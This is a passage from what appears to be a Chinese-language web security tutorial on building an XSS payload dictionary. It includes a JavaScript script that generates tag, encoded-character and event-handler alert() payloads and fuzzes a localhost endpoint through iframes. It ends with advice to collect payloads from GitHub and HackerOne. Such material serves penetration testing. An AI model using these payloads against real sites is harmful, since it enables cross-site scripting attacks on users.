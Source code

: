 #### 构造payload

- - -

有了上面的准备，我们可以构造出大量xss\_payload。  
[![](assets/1698897346-02171f228268b71d4848d1c5c185e55f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7df5824c-0da1-1.png)

也可以利用key师傅这个js脚本，优点很明显能直接弹框的，脚本自己修改下就行。

```plain
var i,j,k,xss,f=0;
var ons = ["onload","onerror"];
var labs = ["a","b","q","br","dd","dl","dt","h1","del","abbr","video","base","audio","details"];
var hexs= ["%09","%00","%0d","%0a"];
for(i=0;i<labs.length;i++){
    for(j=0;j<hexs.length;j++){
        for(k=0;k<ons.length;k++){
            xss = f+'<'+labs[i]+hexs[j]+ons[k]+"=alert("+f+") src=a>a";
            var body = document.getElementsByTagName("body");
            var div = document.createElement("div");
            div.innerHTML = f+"<iframe src=\"http://127.0.0.1/index.php?fuzz="+xss+"\"></iframe>";
            document.body.appendChild(div);
            f = f+1;
        }
    }
}
```

其他脚本可以去Github寻找，这样收集构造出属于自己的xss\_payload.txt 测试时直接fuzz看结果，再根据结果进一步fuzz。

## 后记

- - -

大家平时可以去推特逛逛，HackerOne精彩xss文章等，收集扩展逐步完善自己的字典。
